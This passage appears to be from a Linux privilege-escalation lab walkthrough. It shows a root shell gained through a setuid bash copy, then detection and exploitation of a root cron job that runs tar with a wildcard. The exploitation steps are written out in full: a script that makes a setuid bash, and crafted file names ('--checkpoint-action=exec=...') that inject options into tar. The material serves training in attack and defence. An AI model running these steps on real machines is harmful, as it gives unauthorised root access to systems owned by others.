 ~~~
TCM@debian:~$ /tmp/bash -p
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
~~~


# [Task 17] Privilege Escalation - Cron (Wildcards)

**Detection**

Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script `/usr/local/bin/compress.sh`

~~~
TCM@debian:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
~~~

3. In command prompt type: `cat /usr/local/bin/compress.sh`
4. From the output, notice the wildcard (`*`) used by `tar`.

~~~
TCM@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
~~~

**Exploitation**

Linux VM

1. In command prompt type: `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
